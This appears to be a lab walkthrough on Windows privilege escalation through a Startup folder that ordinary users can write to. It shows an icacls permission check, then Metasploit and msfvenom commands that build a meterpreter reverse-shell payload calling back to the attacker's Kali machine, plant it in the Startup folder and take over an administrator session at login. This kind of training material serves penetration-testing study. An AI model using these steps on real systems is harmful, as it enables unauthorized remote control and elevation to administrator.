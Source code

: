 

Detection

Windows VM

1. Open command prompt and type: icacls.exe `"C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`
2. From the output notice that the “BUILTIN\Users” group has full access ‘(F)’ to the directory.

Check for - if startup has F full access your good to escalate.

Exploitation

Kali VM

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open another command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe
7. Copy the generated file, x.exe, to the Windows VM.

Windows VM

1. Place x.exe in `“C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”`.
2. Logoff.
3. Login with the administrator account credentials. - This simulates an admin user logging in or starting up - initiating the malicious file.

Kali VM

1. Wait for a session to be created, it may take a few seconds.
2. In Meterpreter(meterpreter > prompt) type: getuid
3. From the output, notice the user is “User-PC\Admin”
